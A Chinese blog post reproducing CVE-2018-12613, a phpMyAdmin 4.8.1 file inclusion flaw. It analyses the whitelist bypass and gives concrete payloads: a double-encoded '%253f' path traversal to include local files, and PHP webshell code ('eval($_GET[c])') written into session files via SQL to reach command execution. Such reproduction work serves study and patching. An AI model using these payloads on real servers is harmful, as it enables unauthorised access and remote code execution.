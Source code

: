 ```yaml
---
layout: post
title: phpmyadmin4.8.1后台 文件包含漏洞（CVE-2018-12613）
subtitle: 漏洞复现
author: Qiqi
date: 2018-10-30
header-img: img/SHIELD.jpg
catalog: true
tag:
   - Web安全
   - CVE
---
```


# phpmyadmin4.8.1后台 文件包含漏洞复现（CVE-2018-12613）

### 漏洞分析

在**index.php**中看到了一个明显的文件包含

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540880094-254547-screen-shot-2018-10-30-at-15836-pm.png)

第61行，`include $_REQUEST['target'];`，我们只需要绕过if中的判断就可以传递一个`target`参数来包含恶意文件

根据第57行正则限制，`target`开头不能是`index`

第58行，`target`不能是黑名单中的`import.php`和`export.php`

第59行，将`target`参数传入`Core::checkPageValidity（）`方法，只要发挥结果为true就行了

我们找到`Core.php`

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540880646-272102-screen-shot-2018-10-30-at-20311-pm.png)

我们调用方法的时候没有传`$whitelist`参数，所以为默认值空数组

第445~447行：当`$whitelist`为空时，`$whitelist=self::$goto_whitelist`，如下

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540881739-522534-screen-shot-2018-10-30-at-20202-pm.png)

第456~463行：

**mb_strpos:**`int mb_strpos ( string $haystack , string $needle [, int $offset= 0 [, string $encoding= mb_internal_encoding() ]] )`，返回  `$haystack` 中 `$needle` 首次出现位置的数值

**mb_substr:**`string mb_substr ( string $str , int $start [, int $length = NULL [, string $encoding  = mb_internal_encoding() ]] )`，从`$str`字符串中，提取从`$start`位置开始，长度为`$length`的字符串

获取`$page`中`?`前的所有字符串，不存在时获取全部字符串，然后判断是否在`$whitelist`数组中，若存在返回true

在这里，我们只要使`target=db_sql.php?/../../../......`类似于这样就可以绕过白名单检测了

进而利用目录穿越，就可以包含本地文件

这里我遇到了一个问题，别的文档里都说要利用后面的`urldecode`才可以，但是我这里直接用了`?`也读取成功了

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540883582-858304-screen-shot-2018-10-30-at-30743-pm.png)

不知道有没有师傅解答一下

正常思路往下走，这里是无法利用的，往后看

第465~473行，和上面基本一样，唯一不一样的就是第465行的`$_page = urldecode($page)`，这是绕过的关键

我们可以双重编码绕过，将`?`编码两次，变成`%253f`，首先自动解码一次变成`%3f`，再通过`urldecode`变成`?`，不仅成功绕过白名单，还能够利用目录穿越包含本地文件

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540884129-135587-screen-shot-2018-10-30-at-32013-pm.png)

### 漏洞利用

#### 包含本地系统文件

如上

#### 命令执行

**利用PHP SESSION序列化数据**

每次我们登录phpmyadmin的时候，系统就会产生一个`sess_sessionID`文件，然后在里面执行的操作，会被记录到这个文件内，我这里实在`/tmp`目录下的

查看一下phpmyadmin的sessionid

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540884871-944710-screen-shot-2018-10-30-at-33302-pm.png)

所以我这里的文件就是`/tmp/sess_9ec5f43948c5a5d6e54fd70b536a3aec`

然后打开sql，执行`SELECT '<?php phpinfo()?>;'`

同理，我们去包含一下这个session文件

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540885333-247358-screen-shot-2018-10-30-at-33220-pm.png)

成功执行

尝试`SELECT '<?php eval($_GET[c]);exit();?>';`

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540888600-71909-screen-shot-2018-10-30-at-43457-pm.png)

**利用mysql的data文件**

我们建立一个数据表，再将`<?php eval($_GET[c]);?>`写入列名

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540888944-133708-screen-shot-2018-10-30-at-44211-pm.png)

我们用`show variables like '%datadir%';`语句查询一下data文件的绝对路径是在`/var/lib/mysql`下

但是我发现并没有这个目录

![](https://bbs.xdsec.org/assets/files/2018-10-30/1540891301-744211-screen-shot-2018-10-30-at-51959-pm.png)

所以没法复现了，如果能够包含到这个数据表文件，我们同样可以执行命令
